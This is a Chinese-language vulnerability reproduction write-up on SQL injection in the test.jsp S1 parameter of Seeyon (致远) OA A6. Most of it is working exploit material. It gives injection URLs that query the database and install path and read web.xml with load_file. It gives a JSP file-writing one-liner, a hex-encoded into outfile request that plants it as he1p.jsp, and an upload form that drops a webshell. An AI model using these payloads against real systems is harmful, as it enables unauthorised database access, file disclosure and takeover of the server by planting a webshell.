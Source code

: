 # 致远 OA A6 test.jsp sql 注入漏洞

> 原文：[http://book.iwonder.run/0day/致远 oa/2.html](http://book.iwonder.run/0day/致远 oa/2.html)

## 一、漏洞简介

致远 A6 协同系统 `/yyoa/common/js/menu/test.jsp` 文件 S1 参数 SQL 注入漏洞

## 二、漏洞影响

致远 OA A6

## 三、复现过程

注入点为 S1 变量，通过探测，发现是 mysql 数据库

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1= 
```

于是构造注入语句查询数据库名：

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database()) 
```

![image](img/62514a386b2aedc1d49fd3721831cf9a.png)

Mysql 注入中，我们使用 into outfile 来写入数据，用此方法注入 webshell，前提条件两个：

*   1：root 权限

*   2：物理路径

我们探测一下 web 根目录

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir) 
```

![image](img/cc49f41346f15b52ca177a396a181ec5.png)

通过 yyoa 目录结构猜测物理路径为

```
F:/UFseeyon/OA/tomcat/webapps/yyoa/ 
```

可以使用 load_file 判断是否正确

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20load_file(%27F:/UFseeyon/OA/tomcat/webapps/yyoa/WEB-INF/web.xml%27) 
```

利用 mysql into outfile 写 shell：由于 jsp 一句话超长，请求连接会拒绝，故先上传写文件脚本，再本地构造进行 webshell 上传：

```
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%> 
```

由于特殊符号存在，URL 编码会造成写入后代码错误，故采用 hex 编码后 unhex 处理上传，写入文件名为：he1p.jsp

```
http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27F:/UFseeyon/OA/tomcat/webapps/yyoa/he1p.jsp%27 
```

本地构造上传：

```
<html>
    <form action="http://www.0-sec.org/yyoa/he1p.jsp?f=we1come.jsp" method="post">
        <textarea name=t cols=120 rows=10 width=45>your code</testarea>
        <input type=submit value="提交">
    </form>
</html> 
```

上传后获取 webshell 地址为：[http://www.0-sec.org/yyoa/we1come.jsp](http://www.0-sec.org/yyoa/we1come.jsp)

## 参考链接

> [https://www.pa55w0rd.online/yyoa/](https://www.pa55w0rd.online/yyoa/)

